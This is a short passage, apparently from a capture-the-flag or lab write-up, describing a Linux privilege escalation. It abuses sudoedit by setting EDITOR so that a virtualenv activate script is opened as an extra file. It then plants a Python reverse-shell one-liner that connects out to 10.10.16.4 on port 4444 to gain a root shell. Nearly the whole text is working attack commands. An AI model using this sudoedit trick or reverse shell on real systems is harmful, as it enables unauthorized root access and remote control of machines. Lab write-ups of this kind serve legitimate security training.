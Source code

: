 We export variables by opening /app/venv/bin/activate as an extra file

1.  `export EDITOR="vim -- /app/venv/bin/activate"`

Now we open the file /app/config_test.json which allows us to open as dev_admin at sudoers level

1.  `sudo -u dev_admin sudoedit /app/config_test.json`

Use online tools to generate python's rebound shell command, online rebound shell [2]

1.  `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`

Reverse the shell to get root.